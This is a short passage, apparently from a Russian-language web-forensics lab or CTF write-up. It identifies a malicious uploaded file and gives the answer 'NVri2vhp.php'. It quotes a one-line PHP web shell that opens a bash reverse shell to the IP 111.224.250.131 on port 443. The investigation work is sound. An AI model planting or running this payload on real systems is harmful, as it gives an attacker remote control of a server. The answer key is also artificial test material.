 ![ScreenShot](Labs/screenshots/WebInvestigation-13.png)

Идентификация вредоносного файла:

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"111.224.250.131"/443 0>&1'");?>
```

**Answer 8**: `NVri2vhp.php`

---